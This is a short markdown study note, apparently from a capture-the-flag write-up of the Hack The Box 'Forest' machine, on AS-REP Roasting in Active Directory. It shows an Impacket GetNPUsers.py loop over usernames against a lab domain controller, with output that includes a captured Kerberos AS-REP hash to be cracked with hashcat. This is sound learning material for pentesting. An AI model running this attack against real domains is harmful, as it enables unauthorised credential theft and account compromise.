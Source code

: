 ```yaml
---
title: AS-REP Roasting
tags:
  - kerberos
  - infosec
  - pentest
---
```





## AS-REP Roasting 

Two key attacks on [[Kerberos]] security in Active Directory include [[Kerberoasting]] and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [[Impacket]] tool `GetNPUsers.py` to try to get a hash for each user

```shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The hash is quickly cracked with `hashcat`.